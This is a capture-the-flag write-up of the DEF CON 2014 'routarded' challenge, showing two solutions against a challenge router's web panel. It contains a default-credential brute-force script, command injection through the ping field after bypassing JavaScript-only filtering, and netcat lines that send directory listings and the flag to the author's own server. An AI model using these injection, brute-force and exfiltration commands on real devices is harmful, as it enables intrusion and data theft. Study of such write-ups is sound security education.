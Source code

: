 # DEF CON CTF Qualifier 2014: routarded

**Category:** Baby’s First
**Points:** 1
**Description:**

> Wow, they forwarded http on a router with default creds?
>
> http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/

## Write-up

The hint mentioned default credentials, so we tried some default credentials. After some trying, we found out leaving the username field empty and entering `admin` for the password successfully logged us in.

In the router’s web interface, there was a page to ping IP addresses and domain names (amongst other things). When we attempted to add another command to that, the command was sanitized. For example, entering `8.8.8.8; ls` got sanitized into `8.8.8.8`. However, we saw the sanitizing happening in the browser. Seems like a case of JavaScript-only protection!

We disabled JavaScript in our browser and tried entering `; ls`. This effectively bypassed the filter (i.e. they didn’t do any sanitizing on the back-end), and we got the directory listing this time:

```
bower_components
flag
requirements.txt
routarded.py
static
templates
```

The `flag` file seemed like the right thing. Let’s enter `; cat flag`:

```
The flag is: l0l, can't believe they still do this shit
```

## Write-up 2 (by @d1rt_diggler)

**Note: this is from memory, so some details might be slightly off.**

### Casing the joint

Connecting to the server via browser greated you with a standard HTTP auth prompt. There was no splash page, and I don’t recall anything fancy in the headers, so no hints there…

###Defaults, okay, but WHICH defaults?
I started with your basics by hand (you never know!) admin:admin, admin:password, admin:blank, administrator:administrator, etc.
all without success, I didn't have a password list for router defaults on hand but about 2 minutes of Goog-fu turned some up.  I found http://defaultpassword.com and liked the format and variety, so I just did a full copy and paste of the home page (which lists all the passwords by default, awesome!) and dropped it into a text file.

The defaults were kind of weird though and since it seems to be crowd sourced the standarization for (blank), (none), n/a, etc. was... well, not standard.  I ended up passing the list through a couple grep and awk 1 liners to get only HTTP auth versions and to clean it up the non-standard types for "blank".
```
$ cat passwords.txt | awk '{print $6" "$7}' > first_pass.txt
$ cat first_pass.txt | awk {gsub('\\(none\\)','',$1); gsub('\\(none\\)','',$2);print $1" "$2}' > second_pass.txt
$ cat second_pass.txt | awk {gsub('n\\a','',$1); gsub('n\\a','',$2);print $1" "$2}' > third_pass.txt
$ cat third_pass.txt | awk {gsub('\\(blank\\)','',$1); gsub('\\(blank\\)','',$2);print $1" "$2}' > last_pass.txt
```
Those turned this...
```
3com    cellplex        7000    Telnet  admin   admin   Admin   No
3COM    CellPlex        7000    Telnet  tech    tech    Admin   No
3COM    CellPlex                HTTP    admin   synnet  Admin   No
3COM    CoreBuilder     7000/6000/3500/2500     Telnet  debug   synnet          No
3COM    CoreBuilder     7000/6000/3500/2500     Telnet  tech    tech            No
3COM    HiPerARC        v4.1.x  Telnet  adm     (none)  Admin   No
```
Into this... (roughly... it wasn't perfect, but I was aiming for "good enough")
```
admin admin
tech tech
admin synnet
debug synnet
tech tech
adm
```
Now we had a condensed list, but there were some dupes, no use in retrying pairs.
```
$ cat last_pass.txt | sort | uniq > uniq_pass.txt
```
This would turn
```
admin admin
admin admin
admin password
admin admin
admin administrator
admin admin
admin administrator
admin password
```
Into
```
admin admin
admin administrator
admin password
```
Which would reduce the amount of time it needed to test since we wouldn't be pointlessly testing the same creds over and over.

Now I wanted to format these into the HTTP user:pass format for curl
```
$ cat uniq_pass.txt | awk '{print $1":"$2}' > http_auths.txt
```
Which turned the list generated earlier into
```
admin:admin
tech:tech
admin:synnet
debug:synnet
tech:tech
adm:
```
###We've got our creds, now we need to test em'
Open up good ole vim and pumped out a shell script that would loop over the creds file and attempt
a curl to the router using a set of credentials... if it failed, it would be a 1 line error, if it
worked I'd see a flood of HTML content.

```bash
#!/usr/bin/env bash
users=$(cat http_auths.txt);
for user in $users; do
  echo $user;
  echo "";
  curl -u "$user" "http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/";
  echo "-----"
done;
```

Run it and scan the results for a successful auth.

```bash
$ ./test_auths | less
```

### `[BLANK]:admin`

Of course, the one default I didn’t think to try by hand… OF COURSE!

### Now we're in, let's look around
There really wasn't much to see, under the "tools" or "settings" tab (I can't remember which) there were
two tools that caught my eye, one was a traceroute, the other ping.  Running either returned nothing. I
actually thought something was misconfigured (like legitmately, not in the "break this piece" sense) and
looked around for a few more minutes before deciding to see if I could abuse the ping tool. I was going
in blind though since I couldn't tell if these tools were even getting to a system behind the scenes...
how could I do a simple blind test to see...

```
ping [ google.com ]
(page hangs for roughly 3 seconds, loads)
ping [ 127.asdf.asdf.174188 ]
(page loads immediately)
```

Hmmm okay, so it does seem like it's actually running a ping in the background, maybe it's injectable? I can't
really tell from the busted ass web UI tho... maybe I can get it to phone home.  I jump on my public facing VPS
and type in:

```
$ nc -vvv -lp 4545
Listening on any address 4545 (worldscores)
```

Time to find out...

```
ping [ 127.0.0.1; nc myvps.domains.lol 4545; ]
```

YEAH BUDDY!

```
Connection from 133.7.101.256:49245
```

### Scope the joint

Well we confirmed we had an injectable script, and we confirmed we could phone home, now we just need to
get our hands on that flag... but where the hell is it and where the hell am I?!

```
ping [ 127.0.0.1; ls -lahR /home/ | nc myvps.domains.lol 4545; ]
```

On my listening machine...

```
..snip..
/home/routarded/ (or / I don't remember...)
-rw-r--r--  1 routarded routarded  21   May 14 19:56 flag
..snip..
```

### Gettin’ the goods

Well, we've found it, so we’re pretty much done, all I need to do now is read the file and we’re golden.
```
ping [ 127.0.0.1; cat /home/routarded/flag | nc myvps.domains.lol 4545; ]
```

And on my listening machine...

```
$ nc -vvv -lp 4545
Listening on any address 4545 (worldscores)
Connection from 133.7.101.256:49245
The flag is: l0l, can't believe they still do this shit
```

## Other write-ups and resources

* <http://www.incertia.net/blog/defcon-ctf-qualifiers-2014-routarded/>
